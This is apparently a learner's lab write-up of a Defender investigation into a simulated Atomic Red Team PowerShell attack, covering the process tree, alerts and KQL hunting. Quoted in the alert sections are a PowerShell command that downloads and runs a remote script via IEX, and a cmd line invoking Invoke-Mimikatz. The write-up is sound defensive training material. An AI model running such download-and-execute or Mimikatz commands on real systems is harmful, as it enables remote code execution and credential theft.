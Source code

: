 # PowerShell Attack Investigation – T1059.001

I wanted to share how I approached this investigation, the steps I took, my thought process and what I learned throughout the analysis.

## 5 Prepared Questions

I had prepared five questions that I wanted to start my investigation:

1. What connects these alerts?
2. Which alert came first?
3. What actually ran?
4. Who did it?
5. What happened next?

## The Process Tree – My Findings

This part was a bit confusing at first because as shown in the screenshot, it looks like [pid 14920] powershell.exe launched [pid 8540] cmd.exe. But after checking the timestamps, I realised that [pid 14920] powershell.exe belonged to an earlier user session. The real chain of events was that [pid 8540] cmd.exe created [pid 12236] powershell.exe, which then used DownloadString with IEX (Invoke-Expression) to pull a script from GitHub and run it directly as PowerShell code. This confirmed that the root cause was an interactive PowerShell session started by Jenny’s remote login, not an automated task or background service. That was the point where the simulated attack really began.

[View Process Tree](Process-Tree.PNG)



## The Process Tree – What I Learnt

Looking at the process tree, I realised it shows activity that started before the actual attack time. That is because it includes the parent processes, helping you see exactly how the suspicious one was launched. In this case, PowerShell was started interactively under Jenny’s session, not by a background service. Seeing explorer.exe as the parent process confirmed it came from user activity rather than persistence or an automatic startup.

I also found it helpful that the process tree highlights Remote Execution for the chain userinit.exe > explorer.exe > powershell.exe, showing the action took place within an RDP session.

I also noticed that Defender had blocked and resolved several related threats that never appeared on the alert summary although they were displayed in the Process Tree and Incidents. So because Defender stopped the threats before they were executed, it marked them as resolved, which means they no longer required further action and therefore did not show up in the Alerts summary for triage.

## The Alert Timeline – My Findings

### Alert 1: Suspicious PowerShell Command Line

At first I just saw a long PowerShell command but then I realised why Defender flagged it. It had some red flags like IEX (Invoke-Expression), the DownloadString which pulls the GitHub code from the internet and the -exec bypass flag.

Here’s the command Defender caught:

```text
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.ps1',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```

The remote session came from 192.168.1.72, logged in as AzureAD\JennySmith.

[View Alert Timeline – Suspicious PowerShell Command Line](Alert-Timeline-Suspicious-Powershell-Command-Line.PNG)


### Alert 2: Suspicious Process Executed PowerShell Command

The details in this alert looked almost identical to the first one however they both tell different things.  
Alert 1 is that Defender noticed a suspicious command.  
Alert 2 confirms that the suspicious command was actually executed.

### Alert 3: Mimikatz Credential Theft Tool

The previous alerts led up to this big one which was the main goal of the attacker. Defender confirmed the suspicious command tried to run the Mimikatz tool, which is known for stealing passwords from memory. The command showed PowerShell trying to download and run the script from GitHub. Defender caught it straight away and marked it as Trojan:PowerShell/Mimikatz.A, blocking it before it could dump any credentials.

The command looked like this:

```text
C:\Windows\System32\cmd.exe /c powershell.exe IEX (New-Object Net.WebClient).DownloadString(...Invoke-Mimikatz.ps1)
```

[View Alert – Mimikatz Credential Theft Tool](Alert-Mimikatz-Credential-Theft-Tool.PNG)



## Advanced Hunting – KQL

So far the Process Tree and Timeline have shown the story that started with a suspicious PowerShell command, then the process actually ran during Jenny’s RDP session, and finally it tried to execute Mimikatz to steal credentials but Defender stopped it. However I was keen to investigate the endpoints further and validate the alerts.

I have listed all my KQL queries here : [View KQL Queries](../KQL/KQL-Queries.kql)



### KQL Query 1 – Confirm PowerShell Execution

The KQL query on DeviceProcessEvents confirmed that at 16:05 BST, Jenny’s VM executed powershell.exe from cmd.exe using the IEX and DownloadString to pull a script from GitHub. This aligns exactly with the Defender alerts for suspicious PowerShell activity and validates that the simulated T1059.001 attack produced real telemetry.

[View KQL Query Results – Confirm PowerShell Execution](../KQL/KQL-Query-Confirm-Poweshell-Execution.PNG)


At this point, I already had all the answers I needed as far as the simulated attack goes. However I wanted to dig deeper and practise using KQL as if this was a real investigation.

### KQL Query 2 – Look For Mimikatz

This was really interesting! I hunted for the string Invoke-Mimikatz and I got **No Results!** How is this possible when we have already confirmed the attacker’s DownloadString contained Invoke-Mimikatz?

It’s because the malicious code was blocked and never actually ran so there are no logs for it. This is very important to know that Defender Alerts are based on detection and the endpoint telemetry is not the same!

### KQL Query 3 – Look For Spread of the PowerShell Activity

The results showed that only one device ran the suspicious PowerShell command. This was expected because I had only onboarded one endpoint to Defender. I just wanted to practise building the KQL queries.

[View KQL Query Results – Confirm PowerShell Execution](../KQL/KQL-Spread-Powershell-Activity.PNG)

### KQL Query 4 – Look For Persistence

My persistence query came back with no results is because the Atomic Red Team simulation (T1059.001) was only designed to test PowerShell execution, not persistence. It launched a suspicious PowerShell command that Defender detected and blocked straight away, so it never went on to create any scheduled tasks or user accounts.

## Conclusion

I really enjoyed this investigation and found it a great way to put what I have been learning into practice. Running the Atomic Red Team simulation and then hunting through Defender helped me understand how alerts link together and what they actually mean. I wanted to make the most of this challenge and keep improving my skills through the MyDFIR Skool and I am very grateful to Steven Mah for guiding us through it.
